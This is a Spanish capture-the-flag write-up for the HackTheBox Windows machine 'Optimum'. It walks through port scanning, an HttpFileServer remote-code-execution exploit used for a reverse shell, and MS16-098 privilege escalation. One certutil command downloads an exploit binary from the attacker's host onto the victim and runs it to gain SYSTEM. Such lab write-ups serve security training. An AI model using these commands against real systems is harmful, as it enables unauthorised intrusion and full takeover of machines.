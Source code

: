 ```yaml
---
title: HackTheBox - Optimum
author: cotes
date: 2023-09-14 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, 'HttpFileServer RCE (CVE-2014-6287)', 'MS16-098']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Optimum/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Optimum Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackThBox.

Técnicas usadas: **HttpFileServer RCE (CVE-2014-6287), MS16-098**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Optimum/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Optimum/02-versions.png)

    * Al buscar por alguna vulnerabilidad en **HttpFileServer 2.3** llegamos a un [RCE](https://www.exploit-db.com/exploits/39161)

c. Para ejecutar este script, cambiamos las variables 'ip_addr' y 'local_port', además de levantar un servidor http con python en el puerto 80 ofreciendo **nc.exe**

![](/assets/images/HTB/Easy/Optimum/03-rce.png)

> Ejecutamos el script varias veces hasta recibir la **reverse shell**
{: .prompt-tip }

### Escalada de Privilegios 💹

a. Para la escalada de privilegios usaremos [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

* Copiamos el output del comando `systeminfo` en un fichero.
* La base de datos a usar la podemos descargar de [win-exp-suggester](https://github.com/SecWiki/windows-kernel-exploits/tree/master/win-exp-suggester)
* En caso de tener un algún error con el script instalamos `pip install xlrd==1.2.0`


```bash
❯ python2 windows_exploit_suggester.py -i info.txt -d 2017-06-14-mssb.xls

<SNIP>
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important                                                                           
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
<SNIP>
```

b. Descargamos el fichero [41020.exe](https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe) y lo transferimos a la máquina víctima

```bash
❯ python -m http.server 80
--------------------------------------------------------------------------------------------------------
C:\Users\kostas\Documents>certutil.exe -f -urlcache -split "http://10.10.14.18/41020.exe" ".\41020.exe"
```

* Por último, ejecutamos el script y seremos **nt authority\system**

    ```cmd
    C:\Users\kostas\Documents>.\41020.exe                                    
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.

    C:\Users\kostas\Documents>whoami
    nt authority\system
    ```